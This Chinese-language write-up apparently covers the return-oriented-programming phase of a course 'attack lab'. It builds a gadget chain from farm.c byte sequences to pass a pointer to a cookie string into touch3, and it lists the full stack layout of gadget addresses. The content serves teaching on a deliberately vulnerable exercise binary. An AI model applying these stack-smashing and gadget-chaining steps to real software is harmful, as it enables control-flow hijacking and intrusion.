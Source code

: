当然文档说的你也可以不听 :-) 比如下面通过**实践**发现 不用`cx`,`dx` 根本行不通

虽然也可能从汇编中看出`add`指令 或者 查到`add`指令 不过既然`farm.c`都提供了`add_xy`函数 为什么不直接用呢?也就是加法两个数一个放入rdi(我们已经可以做到)另一个放入`rsi`

```
00000000004019d6 <add_xy>:
   4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
   4019da: c3                    retq

```

**写入`rsi`**

嗨呀好气啊 突然想起没有popq到rsi  只有先到ax再到rsi了，从`pop rsi`变成`pop rax;mov rax esi`,搜`48 89`又发现根本没有能写`rsi`的

那就之有用下面的写入`esi` 是以 `89` 开始(这里可以发现 64位的指令对应多了一个`48` ) 再次给`vim`打广告 搜索` 89 [c-f][6e] ` 找到了唯一一个可用的写入`rsi`的`89 ce 90 90 c3`

```
401a11: 8d 87 89 ce 90 90
401a17: c3
```

所以路线变成了`pop->rax->cx->si`

那下面问题来了`rax`到`cx`,看表中`cx`的列 先搜`89 [c-f][91]`

到`cx`的一个**能用**的都没有?

哎我们是不是有一个表没有用 仔细看它们不光没有被我们使用，也不会影响我们要用的寄存器，最多影响跳转，下面开始展现奇迹的时候开始了 我们要用没用的代码让它"有用"

刚刚通过` 89 [c-f][91]`搜到的 (还有一处也是`89 d1 ;cmp ;ret`可以用)

```
401a68: b8 89 d1 08 db
401a6d: c3
```

这一段从`89 d1 08 db c3`开始 也就是`edx->ecx ; orb bl,bl ; ret`

再找到`dx`的,咦!棒 `eax->edx;test;ret`

```
401a40: 8d 87 89 c2 84 c0
401a46: c3
```

完美 这样就把`pop`到`si`连起来了`pop->ax->dx>cx->si`,可以看出出题者不但言语劝退还代码劝退。

**拿`rsp`** 

然后发现搜`48 89 e` 只有 `48 89 e0`可用 所以`rsp->rax->rdi`

所以栈设计变为

栈高地址

```
字符串            35 39 62 39 39 37 66 61 00
touch3地址        fa 18 40 00 00 00 00 00
mov rax,rdi的地址 (48 89 c7 c3)
add_xy的地址      d6 19 40 00 00 00 00 00
mov ecx,esi的地址 (89 ce 90 90 c3)
mov edx,ecx的地址 (89 d1 08 db c3)
mov eax,edx的地址 (89 c2 84 c0 c3)
偏移量            $0x48(从读rsp的指令到字符串的距离)
popq rax的地址    (58 90 c3)
mov rax,rdi的地址 (48 89 c7 c3)
mov rsp,rax的地址 (48 89 e0 c3)
```
